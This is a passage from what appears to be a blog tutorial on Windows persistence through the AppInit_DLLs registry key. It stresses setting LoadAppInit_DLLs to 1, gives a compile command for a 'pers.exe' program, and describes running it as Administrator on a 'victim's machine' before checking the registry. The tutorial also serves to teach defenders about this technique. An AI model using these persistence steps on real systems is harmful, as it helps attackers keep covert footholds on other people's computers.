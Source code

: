 As you can see, setting the registry key `LoadAppInit_DLLs` to value `1` is also important.    

Let's go to compile it:

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/55/2022-05-16_01-22.png){:class="img-responsive"}    

### demo

Let's go to see everything in action! Drop all to victim's machine (`Windows 10 x64` in my case).

Then run as Administartor:

```powershell
.\pers.exe
```

and:

```powershell
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" /s
reg query "HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows" /s
```

just check.

![pers](/assets/images/55/2022-05-16_05-42.png){:class="img-responsive"}    
